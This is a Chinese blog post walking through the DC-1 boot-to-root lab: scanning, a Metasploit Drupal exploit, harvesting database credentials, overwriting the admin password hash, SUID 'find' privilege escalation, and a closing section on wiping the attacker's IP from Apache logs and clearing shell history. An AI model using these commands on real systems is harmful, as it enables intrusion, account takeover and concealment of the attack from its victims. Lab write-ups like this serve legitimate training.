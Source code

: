 ```yaml
---
layout: post
title: DC-1
subtitle: DC-1
date: 2023-07-07 14:59
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - DC系列
published: true
number headings: first-level 2, max 4, 1.1., auto
---
```


## 1. 信息搜集

### 1.1. 主机发现

```shell
arp-scan -l
namp -T4 -A -p- 192.168.163.131 # 扫描端口
dirb http://192.168.163.131 # 扫描目录
whatweb -v 192.168.163.131
```

### 1.2. 渗透

```shell
msfconsole
> search drupal
> use <id>
> set payload payload/...
> set rhosts <ip>
> options
> run
```

#### 1.2.1. 获取 flag1

![Pasted%20image%2020250707150809.png](https://img.ghostliner.top/arJvR1.png)

提示查找配置文件

#### 1.2.2. 获取 flag2

```shell
shell
python -c "import pty;pty.spawn('/bin/bash')" #优化显示
find . -name "set*" #搜索设置文件
```

![Pasted%20image%2020250707150929.png](https://img.ghostliner.top/MCGvyt.png)

![Pasted%20image%2020250707151035.png](https://img.ghostliner.top/LVs8FM.png)

#### 1.2.3. 获取 flag3

获取到数据库信息

```
'database' => 'drupaldb',
'username' => 'dbuser',
'password' => 'R0ck3t',
```

```shell
mysql -h 127.0.0.1 -P 3306 -u dbuser -pR0ck3t
```

```mysql
use drupaldb;
show tables;
show columns from users;
select * from users where uid=1;
update users set pass="$S$DQCOKBJdDlel6L.ZfV1tYbTccflz6hwDisRxE25daht/qoX.Bb6g" where uid=1;
```

```shell
find . -name "*.sh"
./scripts/password-hash.sh 123
# admin原密码 $S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR
# 现密码(123) $S$DQCOKBJdDlel6L.ZfV1tYbTccflz6hwDisRxE25daht/qoX.Bb6g
```

admin 登录，搜索页面发现 flag3
![Pasted%20image%2020250707155935.png](https://img.ghostliner.top/btkBWY.png)

#### 1.2.4. 获取 flag4

```shell
cat /etc/passwd
ls /home/flag4
cat /home/flag4/flag4.txt
```

![Pasted%20image%2020250707151856.png](https://img.ghostliner.top/Tw3JiS.png)

![Pasted%20image%2020250707151953.png](https://img.ghostliner.top/Gq0tZA.png)

#### 1.2.5. 获取 flag5

按提示提权

```shell
find / -perm -4000 -type f 2>/dev/null # 判断是否能提权
find / -perm -u=s -type f  2>/dev/null
find / -exec "/bin/bash" -p \; # 提权
```

![提权成功](https://img.ghostliner.top/tMPT5d.png)

提权成功，获取 flag5

![Pasted%20image%2020250707161219.png](https://img.ghostliner.top/weYUZl.png)

## 2. 痕迹清除

### 2.1. 网站日志清除

```shell
find /  -type f -name "access*"
sed -i '/192.168.163.132/d' /var/log/apache2/access.log
find /  -type f -name "error*"
sed -i '/192.168.163.132/d' /var/log/apache2/error.log
```

### 2.2. 数据库恢复和日志清除

![Pasted%20image%2020250707165639.png](https://img.ghostliner.top/rDCHQO.png)

```mysql
show global variables like "%log%";
```

### 2.3. history

```shell
history -c
```
